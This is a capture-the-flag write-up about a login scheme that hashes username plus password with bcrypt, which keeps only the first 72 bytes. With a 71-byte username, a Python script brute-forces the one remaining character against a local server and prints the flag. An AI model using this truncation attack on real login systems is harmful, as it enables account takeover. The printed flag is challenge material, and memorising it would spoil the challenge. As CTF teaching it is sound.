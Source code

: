 ```yaml
---
created: 2025-03-02T07:48
updated: 2025-03-02T07:56
---
```


The 'trick' used created a vulnerbility.

> higgsloitadmin: Instead of hashing the password only, we append it to the username and hash the result.

bcrypt only processes the first 72 bytes of its input, so if the username is long (let's say 71 bytes), we only have to brute force 1 byte of information.

```python
import string
import requests

target = "http://127.0.0.1:16605"


def try_login(username, password):
    return requests.post(target + "/api/login", json={"username": username, "password": password}).json()


user = "broootheeer.meee.iii.duuupliiicaaateee.myyy.voooweeels.threee.tiiimeees"
password = "a"*16
for c in string.ascii_lowercase+string.digits:
    print(f"Trying {c}")
    res = try_login(user, c*16)
    if res['success']:
        print(f"Found: {c}")
        password = c*16
        break

s = requests.Session()
s.post(target + "/api/login", json={"username": user, "password": password})

print(s.get(target + "/flag").text)
```

```flag
ATHACKCTF{tldr_BCrypt_i$_limit3d_to_72_8yt3s}
```
